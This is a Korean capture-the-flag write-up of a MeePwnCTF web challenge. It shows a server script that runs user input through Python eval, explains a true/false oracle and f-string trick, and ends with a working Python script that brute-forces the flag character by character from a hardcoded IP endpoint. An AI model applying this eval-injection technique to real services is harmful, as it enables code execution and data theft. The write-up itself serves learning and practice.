 ```python

    print('<div class=container><div class=row><div class=col-md-2></div><div class="col-md-8"><pre>')
    print('>>>> print('+escape(calc_eval)+')')

    try:
        result = str(eval(calc_eval))
        if result.isdigit() or result == 'True' or result == 'False':
            print(result)
        else:
            print("Invalid") # Sorry we don't support output as a string due to security issue.
    except:
        print("Invalid")


    print('>>> </pre></div></div></div>')
```

`FLAG` 변수 안에 우리가 얻어야 할 문자열이 들어가 있는 것을 알 수있다.

그리고 우리가 입력한 value1, op, value2는 각각 `value1+op+value2` 의 형태를 이루어 eval을 통해 계산이 된다.

이를 통해 얻은 결과가 숫자, 또는 참, 거짓일 때만 화면에 결과를 출력해준다.

처음에는`value1 = a&op = +'&value2 = >FLAG#` 를 넣어 대소 비교의 참, 거짓의 유무로 FLAG를 추출하였으나, 플래그에 필터링된 문자열이 섞여있어 더이상 진행이 불가능하였다.

**MeePwnCTF{python3.66666666666666_(**

하지만 플래그의 앞 부분을 보았을 때, python 3.6을 사용하는 것을 알 수 있었다.

python3.6의 특징은 format string을 쓸 수 있는 것이다.

>\>>> simple = 'shpik'
>
>\>>> print(f'{simple}')
>
>shpik

이를 이용하여 FLAG를 뽑았으며m 최종쿼리와 python 소스는 다음과 같다.

```python
import requests

url = 'http://178.128.96.203/cgi-bin/server.py'

params = {'value1': 'True',
          'op': '+f',
          'value2': '{source*0 if source in FLAG else 1}'}

flag = 'MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}'

while True:
    for i in range(ord('['), 0x100):
        print i
        params['source'] = flag + chr(i)
        r = requests.get(url, params=params)
        if 'Invalid' not in r.text:
            flag += chr(i)
            print flag
            break
```
